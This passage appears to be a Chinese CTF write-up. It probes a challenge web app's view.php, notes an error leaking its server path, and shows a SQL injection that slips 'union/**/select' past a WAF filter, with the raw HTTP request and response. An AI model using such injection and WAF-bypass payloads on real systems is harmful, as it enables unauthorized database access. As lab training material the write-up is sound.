 估计是通过get来进行SSRF攻击了

走一下网站的流程

注册了账号

访问个人界面时

```
http://111.198.29.45:53095/view.php?no=1
```

输入no=2

有报错信息，泄露了目录

```
Notice: Trying to get property of non-object in /var/www/html/view.php on line 53
```

看一下有没有sql注入，手工注失败了，有waf

看一下sqlmap能不能跑

试了一下有个基于时间盲注的方法...但是最后sqlmap也没给我跑出来

看了一下师傅们的wp,发现是waf把union select给过滤了，用/**/内联注释来绕过

```
GET /view.php?no=-1%20union/**/select%201,2,3,4 HTTP/1.1
Host: 111.198.29.45:53095
Pragma: no-cache
Cache-Control: no-cache
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.130 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=alqac37gsjk5jco5mk288n8ct4
Connection: close


HTTP/1.1 200 OK
Server: nginx/1.14.2
Date: Wed, 29 Jan 2020 13:45:28 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
X-Powered-By: PHP/5.6.40
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Content-Length: 1666

<!doctype html>
<html lang="ko">
<head>
    <meta charset="UTF-8">
    <meta name="viewport"
          content="width=device-width, user-scalable=no, initial-scale=1.0, maximum-scale=1.0, minimum-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>User</title>

    <link rel="stylesheet" href="css/bootstrap.min.css" crossorigin="anonymous">
<script src="js/jquery-3.3.1.slim.min.js" crossorigin="anonymous"></script>
<script src="js/popper.min.js" crossorigin="anonymous"></script>
<script src="js/bootstrap.min.js" crossorigin="anonymous"></script>
```